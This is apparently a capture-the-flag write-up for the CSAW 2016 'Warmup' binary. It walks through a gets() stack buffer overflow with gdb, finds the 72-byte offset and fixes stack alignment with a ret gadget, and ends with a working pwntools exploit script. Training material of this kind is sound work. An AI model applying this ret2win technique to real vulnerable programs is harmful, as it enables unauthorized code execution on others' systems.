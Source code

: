 
# Warmup

`main` function puts the buffer into the vulnerable `gets()` function.

```c
void main(void)

{
  char local_88 [64];
  char buffer [64];
  
  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(local_88,"%p\n",easy);
  write(1,local_88,9);
  write(1,&DAT_00400755,1);
  gets(buffer);
  return;
```

There is an `easy` function at `0x40060d` that prints out `flag.txt.

```shell
void easy(void)

{
  system("cat flag.txt");
  return;
}
```

Generate a cyclic pattern in `gdb`

```
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

pwndbg> r a
Starting program: /home/wither/NOTES/CSAW/2016/Warmup/warmup a
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
-Warm Up-
WOW:0x40060d
>aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Find the offset of the pattern that clobbered the return address at **72** bytes.

```
0x4006a4 <main+135>    ret                                <0x616161616161616a>

cyclic -l "0x616161616161616a"

Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

The expected payload didn't work

```
run < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 +  p64(0x40060d))')

Starting program: /home/wither/NOTES/CSAW/2016/Warmup/warmup < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 +  p64(0x40060d))')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
-Warm Up-
WOW:0x40060d
>
Program received signal SIGSEGV, Segmentation fault.
```

Taking a closer look at the `easy` function.

```
disass easy

Dump of assembler code for function easy:
   0x000000000040060d <+0>:     push   rbp
   0x000000000040060e <+1>:     mov    rbp,rsp
   0x0000000000400611 <+4>:     mov    edi,0x400734
   0x0000000000400616 <+9>:     call   0x4004d0 <system@plt>
   0x000000000040061b <+14>:    pop    rbp
   0x000000000040061c <+15>:    ret
End of assembler dump.
```

Create a breakpoint at the `system` function, right before `cat flag.txt` and run the payload.

```
b *0x400616
Breakpoint 1 at 0x400616

pwndbg> run < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 + p64(0x40060d))')
```

The program will crash right here, at the `moveaps` instruction, which gdb tells us is **not aligned to 16 bytes**. 

```
 ► 0x7ffff7c5843b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0     <[0x7fffffffd978] not aligned to 16 bytes>
```

This can be confirmed by printing in hex if the current $rsp % 16. If it was **16-byte aligned**, $rsp % 16 would be 0. Instead, the current $rsp is **8 bytes** misaligned.

```
p/x (unsigned long)$rsp % 16

$1 = 0x8
```

To fix this, find a `ret` gadget using `ropper`.

```shell
 ropper --file warmup --search "ret"
 
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: warmup
0x0000000000400595: ret 0xc148;
0x00000000004004a1: ret;
```

Add the address of the gadget in front of the payload to **pop** the misaligned bytes, ensuring our payload is **16-byte aligned**, thus executes without crashing and gives us the flag.

```
run < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 + p64(0x4004a1) + p64(0x40060d))')

Starting program: /home/wither/NOTES/CSAW/2016/Warmup/warmup < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 + p64(0x4004a1) + p64(0x40060d))')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
-Warm Up-
WOW:0x40060d
>[Attaching after Thread 0x7ffff7fa8740 (LWP 44634) vfork to child process 44640]
[New inferior 2 (process 44640)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 44634 after child exec]
[Inferior 1 (process 44634) detached]
process 44640 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0x7ffff7fa8740 (LWP 44640) vfork to child process 44641]
[New inferior 3 (process 44641)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 44640 after child exec]
[Inferior 2 (process 44640) detached]
process 44641 is executing new program: /usr/bin/cat
warning: could not find '.gnu_debugaltlink' file for /usr/bin/cat
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

flag{g0ttem_b0yz}
```

This can easily be automated with Python and pwntools

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./warmup", checksec=False)
p = process()

payload = b"A"*72 + p64(0x4004a1) + p64(0x40060d)

p.sendline(payload)
print(p.recvline().decode())
print(p.recvline().decode())
print(p.recvline().decode())
```

To get the flag.

```shell
python3 exploit.py
 
-Warm Up-

WOW:0x40060d

>flag{g0ttem_b0yz}
```